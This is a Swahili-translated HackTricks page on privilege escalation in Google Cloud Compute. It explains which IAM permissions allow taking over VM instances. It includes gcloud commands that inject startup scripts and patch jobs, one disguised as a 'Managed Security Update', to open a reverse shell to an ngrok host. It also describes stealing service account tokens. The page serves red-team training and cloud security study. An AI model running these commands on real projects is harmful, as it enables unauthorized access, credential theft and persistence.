 # GCP - Compute Privesc

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Kumbuka kwamba ili kufanya mashambulizi yote ya kupandisha hadhi yanayohitaji kubadilisha metadata ya instance (kama kuongeza watumiaji wapya na funguo za SSH) ni **lazima uwe na ruhusa za `actAs` juu ya SA iliyounganishwa na instance**, hata kama SA tayari imeunganishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kubadilisha** taarifa za **metadata** za **instance** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** **mtumiaji mpya mwenye ruhusa za sudo**. Kwa hivyo, utaweza kuingia kupitia SSH kwenye instance yoyote ya VM na kuiba GCP Service Account ambayo Instance inatumia.\
Mipaka:

* Kumbuka kwamba GCP Service Accounts zinazoendesha kwenye instance za VM kwa default zina **mawanda madogo sana**
* Utahitaji kuwa **na uwezo wa kuwasiliana na server ya SSH** ili kuingia

Kwa maelezo zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kufanya shambulio hili kwa kuongeza script mpya ya kuanza na kuwasha upya instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hii ruhusa inatoa **haki sawa na ruhusa ya awali** lakini kwa mfano maalum badala ya mradi mzima. **Mikakati na vikwazo sawa na sehemu ya awali vinatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya ruhusa itakuruhusu **kujipa mwenyewe jukumu lenye ruhusa za awali** na kuongeza haki kwa kuzitumia vibaya.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imewezeshwa kwenye mfano**, kwa ruhusa hii unaweza tu kuendesha **`gcloud compute ssh [INSTANCE]`** na kuungana na mfano. **Hutakuwa na haki za root** ndani ya mfano.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya mfano wa VM, unahitaji kuwa na ruhusa ya `iam.serviceAccounts.actAs` juu ya SA iliyounganishwa na VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imewezeshwa kwenye mfano**, kwa ruhusa hii unaweza tu kuendesha **`gcloud compute ssh [INSTANCE]`** na kuungana na mfano. Utakuwa na **haki za root** ndani ya mfano.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya mfano wa VM, unahitaji kuwa na ruhusa ya `iam.serviceAccounts.actAs` juu ya SA iliyounganishwa na VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya kawaida na Akaunti ya Huduma iliyowekwa na kuiba tokeni** ya akaunti ya huduma kwa kufikia metadata ili kuongeza haki.

Skript ya shambulio kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una ruhusa za **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** unaweza kuunda [**kazi ya kiraka au usambazaji**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuwezesha kusonga kando katika mazingira na kupata utekelezaji wa msimbo kwenye mifano yote ya compute ndani ya mradi.

Kumbuka kuwa kwa sasa **huhitaji ruhusa ya `astAs`** juu ya SA iliyounganishwa na mfano.

Ikiwa unataka kutumia hii kwa mikono utahitaji kuunda aidha [**kazi ya kiraka**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **au** [**usambazaji**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Kwa kazi ya kiraka endesha:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Kupeleka usambazaji wa kiraka:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**Mshambuliaji anaweza pia kutumia hii kwa kudumu.**

### `compute.machineImages.setIamPolicy`

**Jipe ruhusa za ziada** kwa compute Image.

### `compute.snapshots.setIamPolicy`

**Jipe ruhusa za ziada** kwa disk snapshot.

### `compute.disks.setIamPolicy`

**Jipe ruhusa za ziada** kwa disk.

### Bypass Access Scopes

Fuata kiungo hiki upate baadhi ya [**mawazo ya kujaribu kupita access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
